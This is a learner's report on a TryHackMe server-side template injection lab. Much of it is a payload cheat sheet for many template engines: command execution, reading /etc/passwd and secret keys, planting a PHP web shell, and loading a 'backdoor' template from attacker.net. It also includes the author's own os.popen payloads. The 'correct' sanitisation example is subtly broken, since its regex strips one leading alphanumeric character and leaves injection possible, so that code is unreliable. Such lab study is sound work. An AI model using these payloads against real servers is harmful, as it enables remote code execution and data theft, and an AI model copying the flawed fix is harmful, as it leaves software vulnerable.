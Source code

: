 # Report on THM SSTI room 

![completed](completed.png)

<h2>What is SSTI</h2>
Template engines are designed to generate web pages by combining fixed templates with volatile data. 
Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data.
This allows attackers to inject arbitrary template directives in order to manipulate the template engine, 
often enabling them to take complete control of the server. 
As the name suggests, server-side template injection payloads are delivered and evaluated server-side,
potentially making them much more dangerous than a typical client-side template injection. 

SSTI basically works because Template Engines can evaluate operations using certain special operators like ```${{<%[%'"}}%\```.

```
So if user input is directly passed without sanitization and not in the proper syntax such that only data gets passed, then SSTI vulnerabilities arise.
Eg:


```
from flask import Flask, render_template_string
app = Flask(__name__)

@app.route("/profile/<user>")
def profile_page(user):
    template = f"<h1>Welcome to the profile of {user}!</h1>"

    return render_template_string(template)

app.run()

```

Here input is neither sanitized nor passed only as data .

The correct way should be something like:
            
```
import re

# Remove everything that isn't alphanumeric
user = re.sub("^[A-Za-z0-9]", "", user)
template = "<h1>Welcome to the profile of {{ user }}!</h1>"
return render_template_string(template, user=user)
```

<h2>Exploitation:</h2>

To exploit a SSTI vulnerability we first need to identify the template engine. 
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters.
 As a result, it can be relatively simple to create probing payloads to test which template engine is being use
The following decision tree can help with this.

![tree](tree.png)

To follow the decision tree, start at the very left and include the variable in your request. Follow the arrow depending on the output:

    Green arrow - The expression evaluated (i.e 49)
    Red arrow - The expression is shown in the output (i.e ${7*7})

But the same payload can sometimes return a successful response in more than one template language. For example, the payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2. 
Therefore, it is important not to jump to conclusions based on a single successful response. 

Got this very useful repo while doing this:

https://github.com/swisskyrepo/PayloadsAllTheThings

An excerpt for some common template engines:

```
Cheatsheet

--------------------------------------------------------------------Polyglot:
${{<%[%'"}}%\
--------------------------------------------------------------------FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
--------------------------------------------------------------------Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
--------------------------------------------------------------------Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
--------------------------------------------------------------------
Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
--------------------------------------------------------------------Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
--------------------------------------------------------------------Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------

```

Some payloads used earlier:

{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}} - Gives list of files in directory

{{request.application.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}

{{__self__.__init__.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}

{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}

Further Refrences:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings